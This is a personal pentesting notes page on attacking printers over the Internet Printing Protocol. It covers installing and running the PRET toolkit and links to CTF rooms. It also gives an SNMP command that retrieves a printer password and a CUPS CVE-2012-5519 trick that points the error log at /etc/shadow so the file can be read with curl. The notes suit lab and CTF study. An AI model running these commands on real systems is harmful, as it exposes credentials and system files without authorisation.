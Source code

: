 # Internet Printing Protocol (IPP)

<div class="row row-cols-lg-2"><div>

The Internet Printing Protocol (IPP) is protocol to manage printers and print jobs, query printer status, and other tasks.

🐊️ **Port**: 631 (TCP)

Refer to the [IPP Guide](https://www.pwg.org/ipp/ippguide.html). Not all printers use the IPP protocol. See also: [Hacking Network Printers](https://www.irongeek.com/i.php?page=security/networkprinterhacking).
</div><div>
</div></div>

<hr class="sep-both">

## IPP vulnerabilities ☠️

[![printerhacking101](../../../cybersecurity/_badges/thm/printerhacking101.svg)](https://tryhackme.com/room/printerhacking101)

<div class="row row-cols-lg-2"><div>

👉 See the [Printer Security Testing Cheat Sheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet).

You can use the [PRET](https://github.com/RUB-NDS/PRET) <small>(4.0k ⭐)</small> toolkit to try to exploit printers using the IPP protocol. You can install it using: 

```shell!
$ git clone https://github.com/RUB-NDS/PRET && cd PRET
$ python2 -m pip install colorama pysnmP
```

Discover printers

```ps
$ python pret.py
```

</div><div>

Once you found a printer, you must find which language the printer understands

* `xxx.lan ps`: Postscript language
* `IP pjl`: Printer Job language
* `/dev/usb/lp0 pcl`: Printer Command Language, Must be directly connected <small>(for instance, by USB)</small>.

```ps
$ python pret.py [options above]
xxx> help
```

➡️ You can check the web interface <small>(IP:631)</small> if any.

➡️ You may use [PRETty](https://github.com/BusesCanFly/PRETty) <small>(0.2k ⭐)</small>, an automation of PRET in python.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

[![antique](../../../cybersecurity/_badges/htb-p/antique.svg)](https://app.hackthebox.com/machines/Antique)

* SNMP could be used to get the printer password (`snmpget -v 1 -c public IP .1.3.6.1.4.1.11.2.3.9.1.1.13.0`) 

```py
bytes_hex = "<returned bytes here>"
bytes_list = bytes_hex.split()
print("".join([chr(int(byte, 16)) for byte in bytes_list]))
```

* CUPS (CVE-2012-5519 == arbitrary read or if there are printers, we can also use [CVE-2015-1158](https://github.com/0x00string/oldays/blob/master/CVE-2015-1158.py))

```
$ cupsctl ErrorLog=/etc/shadow
$ curl localhost:631/admin/log/error_log?
```
</div><div>
</div></div>